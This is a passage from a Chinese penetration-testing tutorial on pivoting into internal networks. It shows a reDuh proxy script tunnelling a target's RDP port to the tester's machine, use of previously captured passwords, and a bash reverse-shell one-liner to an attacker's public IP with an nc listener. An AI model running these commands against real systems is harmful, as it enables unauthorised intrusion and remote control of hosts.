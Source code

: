 ![img](https://image.3001.net/images/20190807/1565146921_5d4a3f2991817.png!small)

我们将代理脚本上传到目标服务器，在本地访问代理脚本

![img](https://image.3001.net/images/20190807/1565147942_5d4a4326e07e8.png!small)

这样我们执行一下三条命令就可以成功将目标主机的3389端口代理到本地的1234端口，本地连接1234端口就可以登陆内网服务器。

java -jar reDuhClient.jar<http://somesite.com/reDuh.php>

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2a4bb7.png!small)

本地连接1010端口

nc -vv localhost 1010

![img](https://image.3001.net/images/20190807/1565148315_5d4a449b1de95.png!small)

连接成功会有欢迎提示，之后输入命,在java命令窗口执行

[createTunnel]1234:127.0.0.1:3389

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2b57ca.png!small)

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2b9186.png!small)

使用mstsc登录127.0.0.1:1234，到了这一步就算成功了，我们可以根据前期抓取到的登陆密码进行登陆。

![img](https://image.3001.net/images/20190807/1565148397_5d4a44ed86d21.png!small)

![img](https://image.3001.net/images/20190807/1565148427_5d4a450b317f1.png!small)

由于小白能力有限，其它的sockes代理后续会以实验的形式 再呈现给大家。下面说一一下bash端口转发。

## 山转一角

### Linux一句话端口转发

我们在渗透测试中回经常遇见Linux主机环境，我们将获取到Linux主机的shell为内网渗透的工作之一，但有时候把并不是我们想象的那样简单，毕竟目标主机是处在内网环境中没有公网IP是无法与我们的公网IP进行通信的，中间隔了一道墙这怎么搞？

1、bash直接反弹端口：

bash一句话反弹shell,个人在实际渗透中用的也比较少，但是我看着别人都说还比较方便，那么下面就来看一下，这个bash怎么反弹端口的。

首先我们在我们先在目标主机上面执行命令:bash -i >& >/dev/tcp/公网IP/端口 0>&1;

我们先不看执行的效果如何，分析一下这个命令的含义:

bash -i //意思指的是产生一个bash的交互环境；

\>/dev/tcp/公网IP/端口 //大佬们其实一看就明白，就是让内网主机与公网主机的某个端口进行连接；

0>&1 //将标准输入域标准输出内容相结合，然后重定向给前面的标准输出内容；

然后在公网服务器上面执行监听命令，这样的话就能把内网的shell转发到公网服务器：nc -lvvp 端口
